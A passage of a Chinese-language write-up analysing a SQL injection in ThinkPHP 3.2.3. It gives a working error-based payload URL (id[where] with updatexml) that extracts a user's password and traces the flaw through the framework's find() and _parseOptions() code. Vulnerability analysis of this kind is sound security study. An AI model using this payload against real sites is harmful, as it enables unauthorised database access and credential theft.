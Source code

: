 然后访问如下url即可产生注入

```
http://localhost/tp3.2.3/index.php?id[where]=3 and 1=updatexml(1,concat(0x7,(select password from user limit 1),0x7e),1)%23
```

![](ThinkPHP-漏洞分析集合\15.png)

## 漏洞分析

通过payload可以看到还是利用数组的形式进行传参，从而造成了sql注入，感觉一般都是在数组这层，对数据的过滤不够严谨，导致的字符串拼接，从而sql注入

在`$data = M('user')->find(I('GET.id'));`中下好断点，跟踪到`ThinkPHP/Library/Think/Model.class.php:720`的`select `函数中

只列出两条比较重要的语句

```php
public function find($options=array()) {
	....
    // 分析表达式
    $options            =   $this->_parseOptions($options);
	....
    $resultSet          =   $this->db->select($options);
	.....
}
```

在一开始的`$this->_parseOptions($options);`中，本来是对传入的pk进行了类型转换，导致无法进行sql注入

```php
protected function _parseOptions($options=array()) {
	....
    // 字段类型验证
    if(isset($options['where']) && is_array($options['where']) && !empty($fields) && !isset($options['join'])) {
        // 对数组查询条件进行字段类型检查
        foreach ($options['where'] as $key=>$val){
            $key            =   trim($key);
            if(in_array($key,$fields,true)){
                if(is_scalar($val)) {
                    $this->_parseType($options['where'],$key);
                }
            }elseif(!is_numeric($key) && '_' != substr($key,0,1) && false === strpos($key,'.') && false === strpos($key,'(') && false === strpos($key,'|') && false === strpos($key,'&')){
                if(!empty($this->options['strict'])){
                    E(L('_ERROR_QUERY_EXPRESS_').':['.$key.'=>'.$val.']');
                } 
                unset($options['where'][$key]);
            }
```